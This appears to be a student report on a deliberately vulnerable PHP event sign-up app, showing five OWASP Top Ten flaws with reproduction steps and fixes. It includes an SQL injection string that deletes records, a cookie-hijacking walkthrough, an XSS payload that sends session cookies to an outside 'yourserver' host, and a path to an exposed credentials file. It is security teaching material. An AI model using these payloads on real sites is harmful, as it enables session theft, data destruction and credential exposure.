 # The Report

This project is done with PHP in a LAMP environment.<br> 
The requirements:

1. Windows, OS X or Linux as the host
2. OWASP ZAP
3. Firefox with the Advanced Cookie Manager add-on
4. VirtualBox
5. Debian as a virtual machine

See https://github.com/j0ly/firstproject/blob/master/README.md for installation instructions.

There are more problems with this code besides those which I have mentioned and provided a fix for here below. And regarding the suggested fixes, I know that there are many things that could be done to further improve the security. But I had to draw the line somewhere. The task was to have at least 5 OWASP Top Ten vulnerabilies, and to provide a fix for them, which I think I have done.


The OWASP vulnerabilities:

## A1-Injection

The content of the database can be deleted using SQL injection.

### How to identify 
1. Sign up some users to the event. Check from the Admin page. 
2. Then go to the Cancel page and enter: ```' OR '1'='1```. 
3. All the sign-ups are now gone, as you can see from the Admin page!    

### How to fix
Add this after line 14 in delete.php;

```$ticket = mysqli_real_escape_string($conn, $ticket);```

## A2-Broken Authentication and Session Management
The cookie-session-id, which is used for authentication, is sent over an unencrypted connection.<br>

### How to identify
You can get access to the Admin pages using an eavesdropped cookie-session-id like this:

1. Start OWASP ZAP and configure the proxy settings in the browser (see [README.md](README.md#owasp-zap)).
2. Go to the Event-X Admin pages, look who have signed up, and then click the "home" link.
3. You're now back at the starting page, which doesn't use SSL.
4. But with OWASP ZAP you can see that the session-cookie is still in use (see [README.md](README.md#owasp-zap)). If someone would have the possibility to eavesdrop, they could now steal the cookie-session-id!
5. Copy the cookie-session-id to simulate this situation!
  * And if you were using the Firefox browser for this, restart it before the next step...
6. Go to the Admin login-page with Firefox, but don’t log in! 
7. Open “Advanced Cookie Manager” and paste the cookie-session-id into the "Value" box (see [README.md](README.md#advanced-cookie-manager-for-firefox)). 
  * Note: You have to  delete the old one first, otherwise you will not be able to save the change.
  * Close the Advanced Cookie Manger when finished.
8. Go back to the Event-X start page and click the "Admin" link, - now you’re in without entering credentials!

### How to fix
Force HTTPS for the whole server;

1. In /etc/apache2/sites-available/000-default.conf, add this line after the "DocumentRoot" line (modify "yourserver" to match the IP of your server); 
  * ``` Redirect permanent / https://yourserver/ ``` 
2. Restart Apache with this command; ``` apachectl restart ```

## A3-Cross-Site Scripting (XSS)
The XSS code can be entered on the SignUp page, and executed on the Admin page when listing the sign-ups. 
### How to identify
1. Enter this code into the address field on the SignUp page;

   ```<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>```

2. Go to the Admin pages and take a look at the sign-ups.
3. The session-id should now be written to the Apache logs of “yourserver”, which you can see with the "cat /var/log/apache2/access.log" command ("yourserver" would normally be an other server, that the hacker has access to). 

or 

1. Enter this code to any of the fields on the SignUp page; 

   ```<body onload=alert('hello')>```

2. You will then receive a "hello" greeting, when looking at the sign-ups.

### How to fix
In done.php you can find these lines;
```
$fname = $_POST["name"];
$faddress = $_POST["address"];
$creditcard = $_POST["creditcard"];
```
Replace them with these lines;
```
$fname = clean($_POST["name"]);
$faddress = clean($_POST["address"]);
$creditcard = clean($_POST["creditcard"]);

function clean($data) {
  $data = trim($data);
  $data = stripslashes($data);
  $data = htmlspecialchars($data);
  return $data;
}
```

## A6-Sensitive Data Exposure
Credit card numbers are sent in cleartext with POST, over an unencrypted connection.

### How to identify

1. Start OWASP ZAP and configure the proxy settings in the browser (see README.md).
2. Go to the Event-X SignUp page and fill in the requested information, including a (imaginary) credit card number.
3. Press Submit
4. With OWASP ZAP you can now see that the credit card number was sent over an unencrypted http connection (see [README.md](README.md#owasp-zap)).

### How to fix: 
Force HTTPS for the whole server (see the A2-fix)! 

## A7-Missing Function Level Access Control
The database credentials are stored in an easy to guess plaintext config file, inside the web-root, and is lacking access control.
### How to identify
Modify “yourserver” in this link to match your installation; http://yourserver/firstproject/admin/config.ini.<br> 
Then open this link with your browser, and you should see the credentials.

### How to fix
Deny access to the config.ini file. 

There is already a .htaccess file in the admin folder that should do that, but Apache does not by default enable the use of .htaccess files. To enable, do this:

  Open /etc/apache2/apache2.conf in an editor, and find these lines;
  ```
  <Directory /var/www/>
        Options Indexes FollowSymLinks
        AllowOverride None
        Require all granted
  </Directory>
  ```
  Change “AllowOverride None” to “AllowOverride All”. Run the command “apachectl restart”, and try to open the link again.
